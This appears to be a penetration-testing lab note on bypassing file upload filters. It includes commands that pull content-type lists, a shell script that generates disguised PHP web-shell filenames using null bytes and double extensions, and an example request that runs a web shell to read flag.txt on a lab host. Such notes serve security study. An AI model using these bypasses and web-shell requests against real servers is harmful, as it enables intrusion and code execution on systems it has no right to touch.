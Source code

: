 ## Identify allowed file types
```shell-session
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/Web/content-type.txt

cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Filter Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

`ls /usr/share/wordlists/seclists/Web-Shells`

## Creating a wordlist

```bash
#!/bin/sh
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
#modify these extensions for whatever file type you need to test for
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.jpg" >> filenames_wordlist.txt
        echo "shell$ext$char.jpg" >> filenames_wordlist.txt
        echo "shell.jpg$char$ext" >> filenames_wordlist.txt
        echo "shell.jpg$ext$char" >> filenames_wordlist.txt
    done
done
```

## REMEMBER!
disable Payload encoding when using Burp intruder
![[Pasted image 20240817194735.png]]

## File Upload Mindmap

https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Images/file-upload-mindmap.png

**FYI**
You don't always have to get rid of the image extension
example: `http://94.237.59.199:51091/profile_images/shell.phar.jpg?cmd=cat+/flag.txt`

## Content Type 

https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt

```shell-session
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/Web/content-type.txt
cat content-type.txt | grep 'image/' > image-content-types.txt
```

### Magic Bytes
https://opensource.apple.com/source/file/file-23/file/magic/magic.mime

### File Signatures
https://en.wikipedia.org/wiki/List_of_file_signatures

